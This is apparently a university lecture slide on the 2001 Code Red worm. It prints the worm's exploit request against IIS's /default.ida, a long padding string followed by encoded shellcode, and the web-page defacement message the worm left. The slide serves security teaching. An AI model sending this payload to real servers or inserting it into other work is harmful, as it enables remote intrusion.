

88
# Code Red’s exploit
/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u78
01%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%
u9090%u9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u00
78%u0000%u00=a

Additionally, web pages on victim machines may be defaced with the following message:
HELLO! Welcome to http://www.worm.com!
Hacked By Chinese!

Marco Canini, © 2014
28 Jan 2014